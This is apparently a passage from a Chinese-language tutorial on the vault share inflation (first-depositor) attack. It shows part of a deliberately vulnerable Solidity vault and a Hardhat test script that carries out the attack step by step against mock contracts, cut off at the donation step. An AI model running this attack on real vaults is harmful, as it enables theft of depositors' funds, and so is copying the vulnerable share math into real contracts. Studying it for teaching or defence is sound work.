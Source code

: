 ```solidity
        // 计算份额对应的资产数量
        uint256 amount = (_shares * totalAssets()) / totalSupply();
        
        _burn(msg.sender, _shares);
        asset.safeTransfer(msg.sender, amount);
    }
}
```

预览

##### 3. 编写测试脚本来执行攻击

我们需要一个模拟的资产代币。在 `test/` 目录下创建 `attack.test.js`。

**`test/attack.test.js`**

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Vault Share Inflation Attack", function () {
    let deployer, attacker, victim;
    let depositToken, vault;

    const INITIAL_MINT_AMOUNT = ethers.parseEther("10000"); // 10,000 tokens

    beforeEach(async function () {
        [deployer, attacker, victim] = await ethers.getSigners();

        // 1. 部署模拟的存款资产 (Mock WETH)
        const ERC20Mock = await ethers.getContractFactory("ERC20Mock", deployer);
        depositToken = await ERC20Mock.deploy("Deposit Token", "DT");
        
        // 2. 给攻击者和受害者分发一些初始代币
        await depositToken.mint(attacker.address, INITIAL_MINT_AMOUNT);
        await depositToken.mint(victim.address, INITIAL_MINT_AMOUNT);

        // 3. 部署易受攻击的金库合约
        const VulnerableVault = await ethers.getContractFactory("VulnerableVault", deployer);
        vault = await VulnerableVault.deploy(await depositToken.getAddress());
    });

    it("Should allow attacker to steal victim's funds", async function () {
        const attackerInitialBalance = await depositToken.balanceOf(attacker.address);
        const victimInitialBalance = await depositToken.balanceOf(victim.address);
        console.log(`Initial Balances:`);
        console.log(`  Attacker: ${ethers.formatEther(attackerInitialBalance)} DT`);
        console.log(`  Victim:   ${ethers.formatEther(victimInitialBalance)} DT`);
        console.log(`--------------------------------------------------`);

        // --- 攻击步骤 1: 攻击者存入极小金额，成为第一个存款人 ---
        const tinyDeposit = 1; // 1 wei
        await depositToken.connect(attacker).approve(await vault.getAddress(), tinyDeposit);
        await vault.connect(attacker).deposit(tinyDeposit);
        
        console.log(`ATTACK STEP 1: Attacker deposits ${tinyDeposit} wei`);
        console.log(`  Vault total assets: ${await vault.totalAssets()}`);
        console.log(`  Vault total shares: ${await vault.totalSupply()}`);
        console.log(`  Attacker shares:    ${await vault.balanceOf(attacker.address)}`);
        console.log(`--------------------------------------------------`);
        expect(await vault.balanceOf(attacker.address)).to.equal(tinyDeposit);

        // --- 攻击步骤 2: 攻击者直接向金库转账，恶意膨胀资产 ---
        const largeDonation = ethers.parseEther("1000");
```